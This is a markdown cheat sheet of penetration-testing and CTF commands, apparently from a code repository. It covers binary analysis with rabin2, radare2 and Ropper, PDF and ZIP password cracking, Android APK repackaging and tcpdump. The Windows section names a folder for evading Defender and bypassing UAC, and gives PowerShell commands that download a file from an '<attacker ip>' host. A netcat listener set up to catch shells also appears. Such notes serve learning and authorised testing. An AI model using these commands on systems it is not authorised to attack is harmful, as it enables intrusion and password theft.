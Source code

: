 # Exploit dev
Show binary protections:  
```
$ rabin2 -I <binary>
$ checksec -f <binary>
```

List imported functions:  
```
$ rabin2 -i <binary>
```

List functions written by the programmer (approx.):  
```
$ rabin2 -qs <binary> | grep -ve imp -e ' 0 '
```

List symbols: (a = inlcude debug symbols, n = sort by address [numeric])
```
$ nm -a -n <binary>
```

Strings:  
```
$ rabin2 -z <binary>
```

ROP gadgets:
```
$ python3 Ropper.py -f <file(s)>
      --all
      --search 'inc eax'
      --jmp eax
      --badbytes 000a0d
      --console
      --help
```

## Radare2
| Function                  | Command |
| ---                       | --- |
| Open file                 | ```$ r2 <binary>``` |
| Help                      | ```> ?``` |
| Quit                      | ```> q``` |
| Analyse all               | ```> aa``` |
| List functions            | ```> afl``` |
| Disassemble function      | ```> pdf [@ <function name>]``` |

# Python

## Host webserver in current directory
```python3 -m http.server```  
```python2 -m SimpleHTTPServer```

# PDF files
## Tools
https://blog.didierstevens.com/programs/pdf-tools/

## Crack
Download Bleeding John (https://github.com/magnumripper/JohnTheRipper). Use pdf2john.pl.
```Kali
$ perl pdf2john.pl file.pdf > pdf-hash.txt
$ john --wordlist=/w/rockyou.txt pdf-hash.txt
```

# PIL
## 
```python
from PIL import Image
img = Image.open("image.png")
pixels = list(img.getdata())
```

# ZIP files
## Crack
```Kali
$ fcrackzip -u -D -p '/w/rockyou.txt' -v file.zip
```

# Windows

## World-write/readable Directory, Windows Defender whitelist, and on UAC bypass list
```
C:\Windows\System32\spool\drivers\color\
```

## Powershell

### Is Poserwhell running in Constrained language mode?
```
$ExecutionContext.SessionState.LanguageMode
```

### Download file over HTTP (works in CLM)
```
PS C:\> Invoke-WebRequest -uri http://<attacker ip>/<file> -o <output filename>
PS C:\> iwr -uri http://<attacker ip>/<file> -o <output filename>
```

# PostSploit

## Arrow-support for nc
```
rlwrap nc -nvlp 4444
```

# Tmux
| Action            | Command               |
|---                |---                    |
| New tmux          | ```tmux new -s ...``` |
| List tmuxs        | ```tmux ls```         |
| Attach to tmux    | ```tmux a -t ...```   |
| Detatch from tmux | ```Ctrl+b d```        |
| Scroll mode       | ```Ctrl+b [```        |
| Exit scroll mode  | ```q```               |

# Android
## Decompile APK
```
apktool d <package.apk>
```

## Recompile APK
```
apktool b <package/>
cp <package>/dist/<package.apk> .
keytool -genkey -v -keystore debug.keystore -alias android -keyalg RSA -keysize 2048 -validity 20000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore debug.keystore <package.apk> android
OR
jarsigner -verbose -sigalg SHA256withRSA -keystore debug.keystore <package.apk> android
jarsigner -verify -verbose -certs <package.apk>
zipalign -v 4 <package.apk> <package-align.apk>
```
## ADB
| Action                 | Command                              |
|---                     |---                                   |
| List connected devices | ```adb devices [-l]              ``` |
| Install apk via adb    | ```adb install <package.apk>     ``` |
| Spawn Android shell    | ```adb shell                     ``` |
| Display log            | ```adb logcat [-f log.txt]       ``` |
| Download file          | ```adb pull <remote-file> <local>``` |
| Upload file            | ```adb push <local-file> <remote>``` |

[https://devhints.io/adb](https://devhints.io/adb)

## Objection
| Action          | Command                                          |
|---              |---                                               |
| Instrument app  | ```objection patchapk --source <package.apk> ``` |
| Start objection | ```objection explore```                          |

# SSRF

## TCPdump
Listen on port 443:  
```
tcpdump -i eth0 -nn -s0 -v port 443
```

https://hackertarget.com/tcpdump-examples/
